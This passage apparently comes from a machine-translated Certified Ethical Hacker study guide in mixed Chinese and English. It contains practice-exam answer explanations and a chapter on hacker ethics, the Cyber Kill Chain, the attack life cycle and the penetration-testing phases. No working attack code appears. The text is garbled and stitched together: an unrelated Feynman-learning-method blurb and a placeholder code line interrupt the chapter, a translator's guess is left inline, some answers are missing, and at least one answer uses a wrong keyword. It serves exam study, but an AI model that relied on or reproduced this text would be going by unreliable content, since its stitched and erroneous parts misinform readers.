### 22. SNMPv1 身份验证
SNMPv1 使用 `公共字符串（Community string）` 进行身份验证。

1. [Username/password]是错误的，SNMPv1 不支持用户名和密码。
2. [Hash]是错误的，SNMPv1 没有哈希验证。
3. [Public string]是错误的，虽然有时会被误称为 `public string`，但标准术语是 `community string`。
4. [Community string]是正确的。

### 23. Java RMI 注册表
Java 程序在网络中共享过程时，使用 `RMI 注册表（RMI registry）` 来注册和查找远程对象。

1. [RMI registry]是正确的。
2. [RMI mapper]是错误的，不存在此术语。
3. [RMI database]是错误的，没有此概念。
4. [RMI process]是错误的，RMI 与进程无直接关系。

### 24. Gratuitous ARP
一个 `没有对应的 ARP 请求` 的 ARP 响应称为 `gratuitous ARP`（gratuitous response）。

1. [Is‑at response]是错误的。
2. [Who‑has ARP]是错误的。
3. [Gratuitous ARP]是正确的。
4. [IP response]是错误的。

### 25. 文件元数据时间点
文件元数据中通常存储的三个时间点是 `修改时间（Modified）`、`访问时间（Accessed）`、`创建时间（Created）`。

1. [Moves, adds, changes]是错误的。
2. [Modified, accessed, deleted]是错误的，缺少创建时间且包含删除时间。
3. [Moved, accessed, changed]是错误的。
4. [Modified, accessed, created]是正确的。

### 26. 特权提升
使用本地漏洞的 `特权提升（Privilege escalation）` 是最常见的原因。

1. [Pivoting]是错误的，它是利用已获取的权限进行进一步攻击。
2. [Log manipulation]是错误的，与特权提升无关。
3. [Privilege escalation]是正确的。
4. [Password collection]是错误的，与特权提升无直接关联。

### 27. 非否认性原则
为了证明 `签名消息` 确实来自拥有私钥的所有者，使用 `非否认性（Nonrepudiation）` 原则。

1. [Nonrepudiation]是正确的。
2. [Nonverifiability]是错误的，这是一个不常用的术语。
3. [Integrity]是错误的，它只保证数据未被篡改，而不保证签名来源。
4. [Authority]是错误的，与签名验证无关。

### 28. 防御尾随
防御 `尾随（tailgating）` 的可行做法是 `人防（Man traps）`，即在入口处设置物理阻挡，只有持有有效凭证的人才能进入。

1. [Biometrics]是错误的，它用于身份验证，但不能阻止尾随。
2. [Badge access]是错误的，它本身不防止尾随。
3. [Phone verification]是错误的，与物理访问控制无关。
4. [Man traps]是正确的。

### 29. 蓝牙窃听与蓝牙推送
`蓝牙窃听（bluesnarfing）` 比 `蓝牙推送（bluejacking）` 更危险，因为 `蓝牙窃听会接收数据`，而蓝牙推送只会发送数据。

1. [Bluejacking sends, while bluesnarfing receives.]是正确的。
2. [Bluejacking receives, while bluesnarfing sends.]是错误的。
3. [Bluejacking installs keyloggers.]是错误的。
4. [Bluesnarfing installs keyloggers.]是错误的。

### 30. Biba 安全模型
`Biba 安全模型` 关注的是 `完整性（Integrity）`，防止未经授权的提升或降低完整性的操作。

1. [Confidentiality]是错误的。
2. [Integrity]是正确的。
3. [Availability]是错误的。
4. [All of them]是错误的。

## Assessment Test Answers

### 1. B
The destination address is used as the address to send messages to. The don't fragment bit is used to tell network devices not to fragment the packet. The Type of Service (ToS) field can be used to perform quality of service. The IP identification field is used to identify fragments of the same packet, as they would all have the same IP identification number.

### 2. C
A SQL injection attack makes use of SQL queries, which can include logic that may alter the flow of the application. In the example provided, the intent is to force the result of the SQL query to always return a true. It is quoted the way it is to escape the existing query already in place in the application. None of the other attacks uses a syntax that looks like the example.

### 3. C
The Apple App Store and the Google Play Store are controlled by Apple and Google. It's not impossible to get malware onto mobile devices that way, but it's very difficult because apps get run through a vetting process. While some Android devices will support external storage, it's not an effective way to get malware onto a smartphone or other mobile device. Jailbreaking can lead to malware being installed, but it's not the means to get malware onto a mobile device. Third‑party app stores can be a good means to get malware onto mobile devices because some third‑party app stores don't vet apps that are submitted.

### 4. B
DHCP is used to get IP configuration to endpoints. DNS is used to resolve a hostname to an IP address and vice versa. RARP is the reverse address protocol used to take a MAC address and resolve it to an IP address. ARP is used to resolve an IP address to a MAC address. Communication on a local network requires the use of a MAC address. The IP address is used to get to systems off the local network.

### 7. C
既 `worms` 也 `viruses` 都可以编写使用多态代码，这意味着它们在传播时可以改变外观。`worm` 可以自行传播，这是 `worms` 与 `viruses` 的唯一区别。`viruses` 需要用户进行干预才能传播和执行。

### 8. A
风险是事件发生的概率乘以损失的金额。没有可量化的缓解因素，因此不能用于风险计算。

### 9. B
恶意双子攻击使用伪装的接入点，冒充合法的无线网络的连接点。终端尝试连接到该伪装的接入点。虽然可以在恶意双子攻击中钓鱼获取凭据，但凭据钓鱼并不是此类攻击的实现方式。SSID 不会在恶意双子攻击中被修改，这意味着已存在的任何 SSID 都不会变成另一个 SSID。注入四次握手并没有多大作用，因为四次握手假设双方都在通信，注入的完整通信流会被忽略。

### 10. C
防病毒解决方案用于终端或可能用于邮件服务器。状态防火墙能够考虑连接的状态——新建、相关、已建立。应用层网关了解应用层协议。统一威胁管理设备在防火墙功能之上增加了包括防病毒在内的能力。

### 11. A
标准和实践应来源于安全策略，这是对组织内安全角色的高层指导。安全通常不会直接提升公司的底线。策略并非提供具体指示，那是程序的作用。

### 12. B
Base64 编码将不可打印字符编码为可在文本中显示的形式。加密通常会使文本对人类不可读。加密散列是生成固定长度值以标识某值的方式。URL 编码使用十六进制表示字符，将文本转换为十六进制以便在 URL 中使用。

### 13. B
邮件交换记录以 `MX` 记录标识。名称服务器记录以 `ns` 标记。企业可能拥有一个或多个缓存名称服务器，但缓存名称服务器不属于该域，因为它没有任何与域相关的标识。

### 14. C
DNS 查询可以根据主机名或 IP 地址相互查找。你可以使用暴力强行技术尝试识别主机名，但该方法可能无法得到全部结果。递归请求通常由缓存服务器向权威服务器发起，以获取完整响应。完整区域内容的术语是区域传输（zone transfer）。

### 15. A
隧道攻击可以用于在一个协议内隐藏另一个协议。这可能用于通过隧道系统发送操作系统命令。DNS 放大攻击是指一次小的 DNS 请求导致 mucho 更大的响应发送到目标。DNS 递归用于从 DNS 服务器查找信息。XML 实体注入是基于 Web 的攻击，不会出现在 DNS 请求中。

### 16. D
进行 ping 掃描可能有多种原因。你可能想识别网络段中可响应的主机。但你可能不想使用完整的端口扫描。ICMP 是轻量级协议，且有可能通过防火墙，因为它用于故障排除和诊断。

### 17. C
NIST 网络安全框架规定了五个功能：识别、保护、检测、响应、恢复。

### 18. B
Python 解释器的执行速度可能低于编译程序，但差异微乎其微，通常在恶意软件中执行速度不是主要考量。Python 并不难学习，且有大量社区库。一个挑战是你可能需要 Python 解释器，除非你使用 Python 编译器将脚本编译。

### 19. B
表达式 `host 192.168.10.5` 在 BPF 中表示 `tcpdump` 只捕获到或来自 192.168.10.5 的数据包。如果你只想捕获到或自该 IP 的流量，需要将 `host` 替换为 `src` 或 `dest`。

### 20. C
证书可以撤销，但这并不是 Diffie‑Hellman 的用途。密钥管理是一个更广泛的主题，而 Diffie‑Hellman 仅用于密钥交换。它允许通信双方在拥有相同的基值的前提下共同派生相同的密钥。

### 21. D
虽然你可能在模仿他人，但模仿并不是社会工程学的原则。也不存在社会证明或稀缺性。如果你是帮助台的电话，你可能被视为拥有权威地位。

### 22. D
SNMPv3 实现了用户名和密码认证。在版本 1 中，使用明文的 `community` 字符串。SNMP 不使用哈希，虽然常把 `public` 当作 `community` 字符串，但这并不是 SNMPv1 的认证方式。

### 23. A
跨系统的进程间通信称为远程方法调用（RMI）。程序需要与之通信以获取动态端口分配的进程是 `RMI 注册表`。你查询该注册表以识别已在实现 RMI 的系统上可用的服务。

### 24. C
当没有对应的 ARP 请求时发送 ARP 响应，属于意外或不必要的消息，即 `gratuitous ARP`。

### 25. D
文件元数据常用三个日期时间戳。创建时记录创建瞬间，访问时记录访问瞬间，修改时记录修改瞬间。访问时间不等同于修改时间，因为访问可能是只读的。即使你打开文件但未实际修改，访问时间仍会更新。搬动、添加或更改文件有时称为 MAC（修改、访问、创建），但这些并非与文件时间相关的任务。

### 26. C
本地漏洞针对的不是网络上监听的应用。这意味着你必须是本地登录的机器用户，而非远程。换句话说，你需要以某种方式登录系统。本地漏洞不需要用于收集密码，因为不需要利用漏洞即可完成此类操作。同样，操纵日志或横向移动也不需要利用漏洞，通常需要提升权限。本地漏洞可以被利用以获取提升权限的优势。

### 27. A
完整性是 CIA 三要素之一，但它并不是将已签名消息与签名证书的主体关联的原则。不可验证性是无意义的，权威性在此不相关。相反，不可否认性（nonrepudiation）意味着签名者不能否认自己发送了该消息，前提是其密钥在其持有且受密码保护。

### 28. D
生物特征和徽章访问属于物理访问控制。电话验证可能用于验证身份，但不能防止尾随。而 `人阱（man trap）` 能防止尾随，因为它一次只允许一个人进入。


29. B. `Bluesnarfing` 是一种攻击，它连接到蓝牙设备以窃取该设备的数据。`Bluejacking` 可以用于向正在从攻击者接收信息的蓝牙设备发送信息，例如短信。这两种攻击都不安装键盘记录器。在 `bluesnarfing` 攻击中，受害者设备会向攻击者发送信息。

30. B. `Biba 安全模型` 关注数据完整性。虽然其他模型关注保密性，但没有任何一个模型关注可用性。

# Chapter 1

## Ethical Hacking

Welcome to the exciting world of information security and, specifically, the important world of what is referred to as `ethical hacking` or `penetration testing`. You're here because you want to take the exam that will get you the Certified Ethical Hacker (CEH) certification. Perhaps you have done the training from EC‑Council, the organization that manages the CEH certification, and you want a resource with a different perspective to help you as you prepare for the exam. Or you've decided to go the self‑study route and you have enough experience to qualify for the exam. One way or another, you're here now, and this book will help improve your understanding of the material to prepare for the exam.

The exam covers a wide range of topics, often at a deeply technical level, so you really need to have a solid understanding of the material. This is especially true if you choose to go on to the practical exam (a lab‑based hands‑on exam) to earn the CEH Master certification. This chapter, however, will be your starting point, and there is nothing technical here. In it, you'll get a chance to understand the foundations of the entire exam. First, you'll learn just what ethical hacking is, as well as what it isn't. The important part of the term `ethical hacking` is the `ethical` part. When you take the exam, you will be expected to abide by a code. It's essential to understand that code so you can live by it throughout your entire career.

Finally, you'll learn what EC‑Council is, as well as the format and other details of the exam that will be useful to you. While some of it may seem trivial, it can be helpful to get a broader context for why the exam was created and learn about the organization that runs it. Personally, I find it useful to understand what's underneath something rather than experience it at a superficial level. As a result, you'll get the macro explanation, and you can choose to use it or not, depending on whether you find it helpful. It won't be part of the exam, but it may help you understand what's behind the exam so you understand the overall intentions.

## Overview of Ethics

Before we start talking about ethical hacking, I will cover the most important aspect of that, which is ethics. You'll notice it's not referred to as “hacking ethically.” It's ethical hacking. The important part is in the front. Ethics can be a challenging subject because you will find that they are not universal. Different people have different views of what is ethical and what is not ethical. It's essential, though, that you understand what ethics are and what is considered ethical and unethical from the perspective of the Certified Ethical Hacker certification. This is a critical part of the exam and the certification. After all, you are being entrusted with access to sensitive information and critical systems. To keep yourself viable as a professional, you need to behave and perform your work in an ethical manner. Not only will you be expected to behave ethically, you will be expected to adhere to a code of ethics.

As part of the code of ethics, you will be sworn to keep information you obtain as part of your work private, paying particular attention to protecting the information and intellectual property of employers and clients. When you are attacking systems that belong to other people, you could be provided with internal information that is sensitive. You could also come across some critical information vital to the organization for which you are working. Failing to protect any of that data violates the code of ethics by compromising the confidentiality of that information.

You are expected to disclose information that needs to be disclosed to the people who have engaged your services. This includes any issues that you have identified. You are also expected to disclose potential conflicts of interest that you may have. It's important to be transparent in your dealings and also do the right thing when it comes to protecting your clients, employers, and their business interests. Additionally, if you come across something that could have an impact on a large number of people across the Internet, you are expected to disclose it in a responsible manner. This doesn't mean disclosing it in a public forum. It means working with your employer, any vendor that may be involved, and any computer emergency response team (CERT) that may have jurisdiction over your findings.

The first‑time responsible disclosure was identified and documented in the 1990s. The security researcher `Rain Forest Puppy` developed a full disclosure policy, sometimes called the `Rain Forest Puppy Policy` (RFP or RFPolicy). It advocated working closely with vendors to ensure they had time to fix issues before announcing them. At the time, there was a tendency for so‑called researchers to just publish findings to the public to make a name for themselves without regard to the possibility of exposing innocent people when the vulnerabilities they found were exploited by attackers.

On the other side, companies that developed software hadn't caught up with the idea that they needed to be on top of vulnerabilities, and the slow months‑ or years‑long pace of software development wasn't possible any longer with word of vulnerabilities getting out within minutes around the world. Hackers may have tried to notify a company only to have that company ignore the contact. Other companies may have acknowledged the bug but then dragged their feet about getting fixes out to their customers. The RFPolicy was an attempt to ensure that those who found vulnerabilities didn't just announce them indiscriminately but also had the ability to make the announcement if the company started to drag their feet. Wide acceptance of this policy within the security community dramatically increased the collaboration between those who were looking for vulnerabilities and those companies who had to be conscious of their consumers who may be exposed to attack if vulnerabilities were announced.

For examples of responsible disclosure, look at the work of `Dan Kaminsky`. In the mid‑2000s, he found serious flaws in the implementations of the Domain Name System (DNS), which impacts everyone on the Internet. He worked responsibly with vendors to ensure that they had time to fix their implementations and remediate the vulnerabilities before he disclosed them. In the end, he did disclose the vulnerabilities in a very public manner, but only after vendors had time to fix the issue. This meant he wasn't putting people in the path of compromise and potential information disclosure. Even though he was using the software in a way that it wasn't intended to be used, he was using an ethical approach by attempting to address an issue before someone could make use of the issue in a malicious way.

在您执行工作时，您将获得由客户或公司提供的资源。根据 EC‑Council 伦理准则，您必须同意其中规定的内容，并且不得滥用您获得的任何设备。您不能损坏在雇佣或合同期间获得访问权限的任何资产。有时，您所进行的测试可能会导致您所服务的公司基础设施的服务受损。只要此类损害是 unintentional（ unintentional）或经公司同意且被认为可接受的，则是可以接受的。缓解此类顾虑的一种方法是随时保持沟通渠道畅通。如果发生意外故障，确保正确的人员知晓并能够快速处理是至关重要的。

也许显而易见的是，在渗透测试期间您不得参与任何非法行为。同样，您也不得拥有任何重罪定罪记录。与此类似，虽然并非直接非法，但您也不能参与任何被视为“黑客”（black hat）的团体，即那些可能从事非法活动的组织，例如为了恶意目的攻击计算机系统。

无论您是以合同形式还是全职雇员身份开展工作，沟通同样重要。当您接受新的项目时，必须明确对您服务的期望。如果您在书面上明确了服务范围，那么一切都会清晰且有记录。只要您被要求做的工作不违法，且活动范围限定在您所服务公司的系统之内，您的工作即被视为伦理。如果您超出系统、网络和服务的范围，则您的行为将被视为不伦理。

当您保持专业交流，并确保向雇主完全说明自己在做什么，只要您的行动针对的是雇主拥有的系统，您在伦理方面应当处于安全地带。

## Ethical Hacking Overview

现在，很难在不看到关于数据盗窃、基于互联网的犯罪或针对个人和企业的各种攻击的新闻来源时不去关注这些问题。新闻中看到的其实是大规模的问题，伴随大量记录被 compromise 或大型公司被 breached。您所看不到的是针对个人电脑或其他设备的系统入侵次数。例如，Mirai Botnet 感染了运行嵌入式 Linux 实现的较小、专用设备。被认为已被 compromise 并加入该 Botnet 的设备数量已超过 100,000，甚至可能超过一百万。


每年都有数百万新的恶意软件被创建，往往利用最近发现的新漏洞。自 2005 年以来，每一年都有至少 1000 万条数据记录被 compromise。2017 年，近 2 亿条记录被 compromise。这些数字仅来自美国。为了说明，美国只有约 2.5 亿成年人，因此可以说每个成年人都多次经历过其信息被 compromise。需要明确的是，这里讨论的数据记录属于个人而非企业。关于被盗知识产权的总价值估算很少，但可以确定这种 compromise 已经持续了很长时间。

所有这些都表明，迫切需要改进信息安全的处理方式。人们相信，要防止攻击，必须能够理解这些攻击。理想情况下，您需要能够复制这些攻击。如果企业能够定期对自身基础设施进行攻击测试，这些企业将更有可能提升防护能力，并阻止真实攻击者。

这就是所谓的 ethical hacking。它的核心是发现问题，以改进目标的整体安全态势。这可能针对公司的基础设施，甚至桌面系统。也可能是对软件进行测试，以发现可以用于 compromise 软件并进而 compromise 其运行系统的漏洞。目标并非恶意，而是站在“良好”一方使情况变得更好。您可以被雇佣或合同方式为企业执行此类测试。企业可能拥有需要测试的系统或 Web 应用程序。您也可能拥有需要测试的软件。有大量人员对软件（包括商业和开源软件）进行测试。

Ethical hacking 可采用多种名称。您可能不会总是看到 “ethical hacking” 这个词，尤其是在查看职位名称时。相反，您会看到 “penetration testing” 这个词。本质上，两者是相同的。渗透测试的概念是尝试突破组织的防线。这可能也是 ethical hacker 的目标。您可能还会看到 “red teaming” 这个词，它通常被视为一种特定的渗透测试类型，测试者对所测试的组织和网络持敌对态度。红队成员会像攻击者一样行动，即他们会尽量保持隐蔽以避免被发现。

这类活动的一个挑战是必须像攻击者一样思考。此类测试往往很具挑战性，需要不同的思维方式。进行任何形式的测试（包括 ethical hacking）时，制定方法论很重要，因为它能确保您的行动既可重复又可验证。您可能会接触到多种方法论。经验丰富的专业人员可能已经发展出自己的风格，但他们通常会遵循一些共同步骤，我将在本章后续内容中展示这些步骤。

EC‑Council 通过要求获得 Certified Ethical Hacker（CEH）认证的任何人员同意遵守行为守则，来确保该工作的伦理性。该行为守则对持有 CEH 认证的人设定了一系列标准，确保他们在为雇主服务时行为伦理，不造成伤害，并致力于提升安全态势而非破坏它。

## Attack Modeling

正如许多事物一样，使用方法论在 ethical hacking 或安全测试中也很有价值。方法论可以帮助实现一致性、可重复性以及流程改进。一致性很重要，因为您希望无论是谁在进行测试，所执行的测试集合都相同。假设您正在为一家公司工作，并且公司经常请您回来进行后续测试。如果没有一致性，您可能会在一次测试中漏掉某些发现，而在另一次测试中发现它们已经不存在，这会让客户产生错误的印象，或者让人误以为该发现根本不存在。这会给公司留下不好的印象。同样，可重复性让您能够每次都运行相同的测试。事实上，如果您与团队合作，每位成员都应能够运行相同的测试集。您希望确保 thele（原文可能为 "the" 或 "all"）能够顺利完成测试。

- [渗透测试执行标准 (PTES)](https://example.org/ptes) 和 [开源安全测试方法手册 (OSSTMM)](https://example.org/osstmm) 是行业中广泛使用的测试或评估方法论，它们通常围绕攻击者会做什么或攻击者如何操作来构建。虽然这些方法可能不能完全映射到现实中的攻击行为，但它们能够确保安全测试的`一致性`和`广度`，从而显得非常有价值。此外，许多常见的安全测试方法论本身就是攻击者操作模式的模型。第一种是`网络杀链 (Cyber Kill Chain)`，另一种是`攻击生命周期 (Attack Life Cycle)`，还有一种是 `MITRE ATT&CK 框架`。当我们研究伦理黑客的方法论时，会发现这些模型与 EC‑Council 所使用的伦理黑客阶段具有相似之处。

### 网络杀链

在信息安全领域，一个常被提及的框架是 `网络杀链`。杀链是一个军事概念，描述攻击的结构。其核心思想是能够识别攻击者在其进程中的位置，从而相应地调整自己的应对策略。国防承包商 `Lockheed Martin` 将军事概念的杀链适配到了信息安全（或网络安全）空间。Figure 1.1 展示了由 Lockheed Martin 开发的网络杀链。



**FIGURE 1.1** 网络杀链

网络杀链的第一阶段是 `侦察`。此阶段攻击者确定目标以及可能的攻击点，可能包括发现可供利用的漏洞。此阶段收集的大量信息在后续攻击过程中将十分有用。

攻击者在确定目标后，需要决定如何进行攻击。这里涉及 `武器化`。攻击者可能会创建针对目标的定制恶意软件，也可能使用常见的商用恶意软件（COTS），但后者有可能被受害环境中的防病毒软件检测到。攻击者可能认为这不重要，于是会向更多个人发送恶意软件。

`交付` 是将武器（恶意软件或指向恶意网站的链接）送入受害者环境的过程。这可能是网络基础设施上的攻击，利用 `exposed service` 进行远程利用；也可能是通过电子邮件附件发送，或是将恶意软件托管在受害者常访问的 Web 服务器上，受害者访问时即被感染。`利用` 阶段指恶意软件感染受害者系统的过程。

`利用` 导致 `安装`。攻击者会在系统上安装额外软件以保持访问权限，并可能获得远程访问。安装完成后，攻击者进入 `命令与控制 (C2 / C&C)` 阶段。该阶段提供攻击者对受感染系统的远程访问，可能通过安装额外软件或发送指令实现。攻击者可能试图窃取信息，或让系统参与大规模拒绝服务攻击。

这些行为统称为 `目标操作`。每个攻击者的目标各不相同。具有犯罪动机的攻击者可能希望通过窃取信息或出售对其他组织的访问来获利。国家行为体则可能关注获取知识产权。无论组织是什么，它们都有自己的目标，并在达到这些目标之前会持续活动，因此杀链的这一阶段活动非常丰富。

### 攻击生命周期

安全技术和咨询公司 `Mandiant` 经常使用另一种称为 `攻击生命周期` 的方法论。它不同于网络杀链，但也有一些相似之处。攻击生命周期描述的是攻击者实际操作的过程，适用于自 `computing infrastructure` 诞生以来的所有攻击。回顾 `Chaos Computer Club` 在 1980 年代的活动，或 `Kevin Mitnick` 及其同僚在 1970 年代末至 1980 年代及以后的行为，可以直接映射到攻击生命周期中。Figure 1.2 展示了攻击生命周期的结构。

与网络杀链的一个显著区别在于 `攻击往往不是一次性完成`。中间会出现循环。攻击者在进入网络后，不会再从外部不断发起攻击。一旦进入环境，他们会利用被 `compromized` 的系统作为内部进一步 `compromize` 的跳板。攻击者获得系统后，会利用该系统以及发现的凭证等信息，进一步横向移动到其他系统。在此之前，攻击者会在 `初始侦察` 阶段识别目标和潜在攻击点。此阶段的侦察包括利用公开来源（如社交网络）获取姓名和职务等信息，以生成钓鱼攻击。这是 `初始 compromize` 阶段。



**FIGURE 1.2** 攻击生命周期

系统被 `compromize` 后，攻击者会努力 `建立立足点`，确保在需要时能够重新进入系统。需要认识到，这些攻击并非“bang‑bang”式的快速完成，可能需要数天或数周才能从一个阶段转移到下一阶段，这取决于执行攻击的组织。这些攻击者是组织而非个人，不同员工可能负责不同的阶段。

要继续后续操作，攻击者必须 `提升权限`，获得管理员权限以便在环境中循环移动，进一步收集系统。此阶段他们会从记忆体或磁盘中提取凭证，并调查系统与其他系统的连接关系，这属于 `内部侦察`。他们可能还在寻找系统中已知的其他凭证。

侦察是实现 `横向移动`（亦称 `east‑west movement`）的前提。攻击者需了解组织内部的系统布局，可能是服务器，也可能是个人工作站。在企业网络中，攻击者可以使用捕获的凭证对其他工作站进行认证，从而访问不同的服务器集合。

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 `Richard Feynman`。

1. 运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，`难以遗忘`。

```
if (condVar > someVal) {console.log("xxx")}
```

在完成这项工作的过程中，你可能会泄露目标公司员工的个人信息。这在社会工程攻击时会派上用场。这类攻击屡见不鲜。事实上，一些估计表明 80 到 90 百分比的渗透都是由这类社会工程攻击导致的。它们并非获取网络访问的唯一手段，但通常是最容易的入口。

## 扫描与枚举

一旦你识别出网络段，就会希望找出这些网络段内可访问的系统；这就是扫描与枚举阶段。更重要的是，你需要识别在任何可用主机上运行的服务。最终，这些服务将作为入口点。目标是获得访问，这可能通过暴露的网络服务实现。这不仅包括所有打开端口的列表（这将是有用的信息），还包括每个开放端口背后的服务身份和运行的软件。

这也可能导致收集不同服务提供的信息。这包括提供服务的软件，例如 Web 服务器上的 `NGINX`、`Apache` 或 `IIS`。此外，还有服务会提供不只是软件信息，甚至组织内部的细节，例如用户名。例如，某些 SMTP 服务器在正确查询时会泄露有效的用户名。使用 `Server Message Block (SMB)` 或 `Common Internet File System (CIFS)` 协议的 Windows 服务器可以被询问以获取信息，例如共享的目录、用户名，甚至一些策略信息。该阶段的目标是尽可能多地收集信息，为进入下一阶段提供起点。随着网络规模和企业规模的扩大，这一阶段可能会耗时较长。收集到的细节越多，后续阶段就越容易。

## 获得访问

获得访问是许多人认为渗透测试最重要的部分，对许多人来说也是最有趣的。这里你可以展示某些服务可能存在的漏洞。你通过利用该服务来实现。当你 `compromising` 系统或窃取数据并能够证明时，理论上的或假阳性就不存在。这凸显了伦理黑客的重要方面：文档记录。仅仅说 “我做了这件事” 是不够的。你需要以某种方式展示或证明你确实 `compromising` 了系统。

技术性攻击，如针对监听网络服务的漏洞利用，有时被认为是系统被 `compromising` 的方式，但事实是社会工程攻击更可能是攻击者获得访问的途径。这也是为什么枚举很重要 —  — 因为你需要社会工程攻击的目标。进行社会工程攻击的方式有很多种，包括通过电子邮件向机器注入恶意软件，或诱使用户提供可用于其他方式的信息（例如用户名和密码）。

另一种从用户那里获取信息的手段是让他们访问一个网站。这可能是你作为攻击者加载了恶意软件的网站，用于感染他们的系统。或者，如前所述，你可能在询问他们信息。这里提到的恶意软件出现了两次。了解恶意软件的工作原理及其使用场景对于获得访问至关重要。

并非总会被要求执行社会工程攻击。公司可能会通过其他方式进行安全意识培训，并且不期望你进行网络钓鱼或基于网页的攻击。因此，你不应过度依赖这些相对容易的技术来获取系统访问。

## 维持访问

一旦你进入系统，模仿常见的攻击模式意味着你应该保持访问。如果你成功 `compromising` 了用户的系统，用户关闭系统后你将失去访问。这可能意味着你需要重新 `compromising` 该系统。由于 `exploit` 不总是有效，你下次尝试时可能无法再次进入。此外，你可能使用的 `compromise` 依赖于一个已经被修补的漏洞。下一次尝试可能失败，因为该漏洞已不存在。你需要为自己提供其他进入系统的方式，以确保你能够继续观察该系统的状态，甚至整个企业网络的情况。

此阶段恶意软件可能很有用。你可能需要安装根套件（rootkit），它可以为你提供后门以及隐藏自身和行为的手段。你可能需要在系统上安装额外的软件以保持访问。这可能需要在你完成初始 `compromising` 后将软件复制到目标系统上。

因此，这一阶段并非看似那么简单。可能会有多种因素阻碍你保持访问。不过，保持访问的方法有很多。不同的操作系统允许不同的技术，但每个操作系统版本或更新可能使某些技术变得更难。伦理黑客的实践取决于具体情境，这也是其挑战所在。没有单一答案或简明的方法。一个 Windows 10 系统可能因为缺少可用的补丁而容易被 `compromising`，而另一个 Windows 10 系统可能因为已是最新版本并加强了权限和其他设置而难以入侵。

维持访问通常称为 `persistence`。这是安装任何持久访问机制的阶段。无论用户是否注销或重启系统，攻击者都可以继续访问。常见做法是安装能够向互联网上的系统发送 `beacon`（回连）的软件。原因是入站访问通常被防火墙阻止，而出站访问往往在网络内部是完全不受限制的。

### 隐藏痕迹

隐藏痕迹是指隐藏或删除你获得访问时留下的任何证据。此外，你还应隐藏你持续的访问。这可以通过确保你的行为不被记录的恶意软件，或让恶意软件误报系统信息（如网络连接）来实现。

需要记住的一点是，你的行为有时也会留下证据。例如，在 Windows 系统上擦除日志会留下一条记录，指示日志已被擦除。这可能会提示监控日志的人进一步调查。虽然这不一定保证日志擦除是恶意的，但足以引起进一步关注。因此，隐藏痕迹可能很困难。这可能正是你被要求做的 —  — 挑战并测试操作团队的应对能力。因此，始终要牢记你的参与目标。

## 总结

很难过度强调伦理的重要性。你在签署 CEH 认证并通过考试时，会被要求遵守职业伦理准则。你必须始终以专业的方式对待客户和雇主。你需要成为任何受托数据的负责任守护者。

# 网络基础

虽然本章的内容不太可能直接出现在考试中，但假设你不需要了解这些材料才能在本书其余部分以及考试中取得成功是一个错误。你可能能够学会使用工具，但如果在操作时遇到问题，你将无法理解发生了什么，除非拥有大量的基础知识。这些内容曾经是考试的一部分，现在仍然是理解如何成为成功的伦理黑客所必需的深入知识。

要理解网络的工作原理，了解协议如何组合在一起的概念性理解会很有帮助。有一个用于描述通信协议及其功能的概念模型。还有一种描述这些功能的方式，有时称为 `模型`，但它更像是一种已构建的架构设计。本章将介绍 OSI（开放系统互联）模型和 TCP/IP 架构。

你需要理解网络拓扑结构。拓扑结构通常是概念性的，可以用来逻辑地组织系统，观察它们的连接方式。这将引导我们讨论网络的物理元件，包括地址方式。最终，当我们进行系统网络时，我们希望它们能够相互通信。为此，每个系统都需要一种被其他系统用来定位的方式。正如你将看到，每个系统会拥有多个地址。这回溯到前文提到的模型，因为不同的地址是通过不同层的功能进行通信的方式。

当我们从物理组件向上移动网络栈时，我们将开始讨论你可能最熟悉的协议：`Internet Protocol（IP）`、`传输控制协议（TCP）`和`用户数据报协议（UDP）`。这些协议是基础性的，你需要扎实掌握它们，不仅用于系统测试，还用于指导公司如何通过修复漏洞来降低风险。

